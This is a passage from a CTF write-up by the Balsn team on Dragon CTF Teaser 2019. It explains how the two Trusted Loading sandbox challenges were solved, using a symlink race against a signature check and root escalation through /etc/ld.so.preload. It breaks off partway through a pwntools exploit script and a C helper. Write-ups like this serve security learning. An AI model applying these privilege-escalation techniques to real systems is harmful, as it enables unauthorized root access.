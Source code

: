 # Dragon CTF Teaser 2019

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20190921-dragonctfteaser/) of this writeup.**


 - [Dragon CTF Teaser 2019](#dragon-ctf-teaser-2019)
   - [Sandbox](#sandbox)
     - [Trusted Loading 1](#trusted-loading-1)
     - [Trusted Loading 2](#trusted-loading-2)
   - [Web](#web)
     - [rms](#rms)
     - [rms-fixed](#rms-fixed)
     - [looking glass](#looking-glass)
   - [Misc](#misc)
     - [PlayCAP (unsolved)](#playcap-unsolved)
     - [babyPDF](#babypdf)
   - [Crypto](#crypto)
     - [rsachained](#rsachained)


## Sandbox
### Trusted Loading 1
We can execute any binary under the chroot("/home/chall/chroot"). We also can call trusted_loader to execute binary not under the chroot if that binary pass the signature check. The bug is at when trusted_loader check the file using stat with S_ISREG. If we provide a symlink, S_ISREG will also return True. We first let the symlink link to the "tester" to pass the signature check. Before trusted_loader execute the binary, we rename the binary which we want to execute to "tester". In the end, we can execute any binary not under the chroot to read "/flag1". 

### Trusted Loading 2
In this challenge, we have to read the "/flag2" which is only read by root. We found that we can upload file to the "/home/chall/chroot". This process is done by root privilege. "/home/chall" is owned by 1337, so we can delete "/home/chall/chroot" and make it as a symlink to any path. It means that we can create any file in any path. We create /etc/ld.so.preload and exit. When executing poweroff, it will preload our library. We hijack getopt_long to read the flag2.

```python
from pwn import *


def Upload(filename,name):
    data = open(filename).read()
    r.sendlineafter("3.","2")
    r.sendlineafter("?",name)
    r.sendlineafter("?",str(len(data)))
    r.sendafter("?",data)
def Do_elf(filename):
    data = open(filename).read()
    r.sendlineafter("3.","1")
    r.sendlineafter("?",str(len(data)))
    r.sendafter("?",data)
'''
init.c
#include <stdio.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <unistd.h>
int main(){
        symlink("/home/chall/chroot/tester","PWN");
        symlink("/home/chall/chroot/tester.sig","PWN.sig");
        while(1) {
                sleep(1);
```